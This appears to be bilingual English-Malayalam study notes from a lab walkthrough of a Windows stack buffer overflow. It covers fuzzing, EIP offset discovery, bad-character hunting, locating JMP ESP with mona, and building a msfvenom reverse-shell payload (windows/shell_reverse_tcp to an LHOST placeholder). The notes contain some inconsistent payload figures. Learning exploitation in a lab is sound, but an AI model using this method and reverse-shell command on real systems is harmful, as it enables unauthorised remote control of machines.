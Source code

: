 tib3rius(BOF) -->https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst
oscp -->https://github.com/Tib3rius/Pentest-Cheatsheets
.reference-->https://www.hackingarticles.in/a-beginners-guide-to-buffer-overflow/#:~:text=EIP%20offset%20is%20the%20exact%20value%20that%20gives,malicious%20code%20so%20that%20it%20could%20be%20executed.

There are two types of Buffer Overflow--**Heap Buffer Overflow**  ,  **Stack Buffer Overflow Attack**(most common)

Buffer Overflow works across different platforms including Linux, Windows and any other flavour out there because it deals with memory rather than what’s built on top of it.Since, dealing with memory registers in Linux can be a bit difficult to go head first, we make a smart choice of first understand the various steps and techniques of Buffer Overflow on a Windows Machine with an executable before moving on further.

Immunity Debugger is a tool that we can use for malware analysis, exploit writing and reverse engineering binary files. In this practical, we will use Immunity Debugger to see how buffer overflow occurs in a binary by analyzing the registers, hex values, memory addresses, etc.

                     =============== **EXERCISE (windows):**  ===============
-->first nammal immunity debugger eduth vulnerable app run chyyunu.ath paused statil ayirikum undavuka.so run chyuka.athil port 31337 listern chyunu enn kanikum.so ini namalude kaliyil varuka and make sure that port is runnng
-->nmap [targer ip]
      Once it is confirmed that the application is listening on port 31337 we can move forward and check how the application functions. We will use Netcat to interact with the application.
-->nc [targer ip] 31337
    ivide namuk test,enthengilum adikuka ok.Next, we will try to **fuzz** the application and see if we can crash it or not.
-->Here we are using a Fuzzer that generates a bunch of A’s (\x41) and sends it to our vulnerable application. The number of A’s is incremented every time because of a while loop present in the Fuzzer’s code. Fuzzer repeats the process until and unless it detects a crash in the application and couldn’t connect to it anymore.
-->fuzz chyunathin mumb immunity debuggeril poi app running thanne aano enn urapp varuthuka.oru python script und fuzz chyan.ath vechan fuzz chyunath.
-->After running the Fuzzer, we can see that the Fuzzer stopped after sending 160 bytes of data in the application
-->If we check the process state in Immunity Debugger, we could see that the application is in the paused state now. One more thing to be noticed is that the ESP register has overflown with A’s. This confirms that the application will crash if we send 160 A’s or 160 bytes of data in it.

**Registers**
  -   **EAX –** It is an accumulator register used to perform arithmetic calculations like add, subtract, compare and store the return values from function calls.
  -   **ECX –** This register acts like a counter used for iterations, it counts in a downward manner.
  -   **EDX –** This register holds extra data to perform complex calculations like multiply and divide. It acts as an extension of the EAX register.
  -   **EBX –** It is the base register that doesn’t have any defined purpose, it can be used to store data.
  -   **ESP –** It is the stack pointer. It indicates the location in the memory where the current instruction starts. It always points to the top of the stack.
  -   **EBP –** It is the base pointer that points to the base of the stack.
  -   **ESI –** It is known as the source index register which holds the location of the input data.
  -   **EDI –** It is the destination index register which points to the location where the result of the processed data is stored.
  -   **EIP –** It is the instruction pointer register. It is a read-only register that holds the address of the next instruction which is to be read.

                     =======  **Offset Discovery & Controlling EIP**  ==========
-->EIP offset is the exact value that gives us the information that how many bytes will fill the buffer and overflow into the return address (EIP).
-->Controlling the EIP is a very crucial part of buffer overflow attacks because EIP is the register that will ultimately point to our malicious code so that it could be executed. While fuzzing the application we saw that it was crashing at 160 bytes which means that EIP is located somewhere between 1 and 160 bytes. So, we will use a pattern creation tool in MSF which generates a **pattern** of certain bytes and it will lead us in finding the exact offset value. We will generate a pattern of 200 bytes. 40 bytes more for a little bit extra padding.
         --> msf-pattern_create -l 200
-->ee 20 bytes of data nammal oru python script il payload variablil aaki run chyunu.run chyunathin mumb aa app debuggeril restart chyuka ok.
            -->python exploit.py
-->Upon execution, the script will crash the application. We can confirm it by going back to our debugger.
-->ESP register now shows the pattern which we had sent to the application to crash it. Now if we look at the EIP register the value is **39654138**. We will use this value to find the EIP offset. To find it we will be using the pattern offset tool of MSF:
            -->msf-pattern_offset –l 200 –q 39654138
-->By using the above command, we found an exact match at offset 146. So, our EIP offset is **146**.
-->**Next, we will update our exploit code accordingly. As we now know the EIP offset value, we don’t need to send the pattern anymore. We can simply send 146 A’s in place of the pattern. We will send 4 B’s after 146 A’s as to ensure whether we can control the EIP or not. If the EIP register has 4 B’s after the execution of the exploit, then it will be confirmed that we can control the EIP now.**
-->so nammal python script il pinem update chyth payload = **A * 146 + eip(ie B *4*)** kodukunu
-->After updating the exploit code, we will run it again to check if we can control the EIP or not (don’t forget to re-run the application in Immunity Debugger before running the exploit).
-->As we can see in the above image, the EIP register has “42424242”. The hexadecimal value of ASCII character “B” is 0x42. So, it is confirmed at this point that we can control the EIP register.

                    =========== **Finding Bad Characters**  ===============
-->Bad characters are unwanted characters that break the shellcode. Finding and omitting the bad characters are necessary because bad characters terminate the string execution where ever they appear. If there is any bad character present in our shellcode in the end, then its execution will be stopped where ever the bad character is situated, so we will be omitting all the bad characters while generating our shellcode.
-->To find the bad characters we will first generate all characters with a python script and send it to the application to crash and analyze it. The code present below generates all characters from x01 to xff without x00 as x00 is a bad character by default. x00 is known as the null byte.
         -->script oke site il nokiyamthi ilengi tryhack me yil und.badchar.py enno matto peru iduka
-->ee x01 -xff vere ulla random characters nerthe pole script il itt veendum app crash aakuka ennit analyze chyuka
-->**After running the updated script, we will compare the hex dump of ESP with all characters to look for any bad character appearing in the memory. To do so, we will select ESP and then select follow in the dump.**
-->nammal code il ==b"A" * number +b "B" *4* +bad chars== ennan kodukunath.ie,==EAX+AIP+ESP==. esp il bad charecters kodukunath kondan follow in the dump select chyunath.ok. 
-->Now, if we compare the hex dump with all characters that we sent then we will see that everything is going pretty fine from 01 to 09 but after 09, 21 is there instead of 0A. This means that “\x0a” is a bad character.
           **hexadecimals-->1,2,3,4,5,6,7,8,9, and A,B,C,D,E,F**
-->Once we have found a bad character, we need to remove it from our exploit code and send it again to search for the next bad character. We need to repeat these steps until and unless our exploit is completely bad characters free.
-->Now that our exploit is bad characters free, we need to find out the JMP ESP.

                  ===== **JMP ESP(finding a jump point)**  ===============
-->when we execute a shellcode on a programm/application,we want to make sure that the EIP is pointing to our shellcode because that is the return address
-->if you want to execute a shell code,you need to find the adress of the shell code and then write the adress in the EIP __address___    
-->in an ideal senario,its really impossible to find out where in memory our shell code is.but ivide oru easy aaya reethi kanikunund ok.
-->in assembly there is an instruction-JMP ESP-means that jump the point of execution to the esp and continue executing whatever is there or whatever is pointed by the ESP.
--> **When an access violation occurs, the ESP register points to memory which contains the data which we had sent to the application. JMP ESP Instruction is used to redirect the code execution to that location. To find the JMP ESP we need to use a module of mona with –cpb option and all the bad characters that we found earlier, this will avoid mona returning memory pointer having bad characters. After running the command we need to open up log data.
                               -->!mona jmp -r esp -cpb "\x00\x0a"**
-->This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window (use the Window menu to switch to it if needed).
-->Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.
-->Once we open up the log data window, we can see in the below image that mona has found 2 pointers. Both the pointers are having all the security mitigations like ASLR, Rebase, SafeSEH turned off. So, we will choose one of the pointers and follow it in disassembler.
-->Once we hit “Follow in Disassembler” the CPU-thread window will open up again.we have found the JMP ESP address to be **080414C3**.ee address(number) nammal python script il iduka.idumbol sredhikuka O.S architechture anusarich idanam.x86(32 bit processors)aanenkil reverse aayi idanam , x64 aanenkil nere thane ital mathi

             =============== **Prepend NOPs** ====================
-->Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:
      -->padding = "\x90" * 16 (pading um oru variable aan python script le)
	  
               =============== **Generate Payload**  ===============
-->Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):
     -->msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c
	 here we use -f c because we need it to be c file and it is important
-->Copy the generated C code strings and integrate them into your exploit.py script payload variable.

**Final Exploit**
-->Now that we have generated our shellcode as well, it’s time that we make all the necessary changes in our exploit and make it ready to gain a reverse shell. We don’t need all characters now. We will insert our generated shellcode in place of “allchars”. So, the basic architecture of our exploit will be  **146 A’s as junk value + JMP ESP + NOPs + Shellcode.**
-->-->**b "A" *2012 + b"\address..\..\" +b "\x90" * 32 +payload(created from msfvenom)**
      ingane aan python script il reverse shell kitan vendi idendath

                 ===============  **Reverse Shell**  ===============
-->Since, we have already done all the necessary steps that were required to get a --reverse shell, now we can just start the Netcat listener on port 4444 and run the exploit. As we can see in the image, we successfully exploited the buffer overflow vulnerability present in the application and gained a reverse shell.



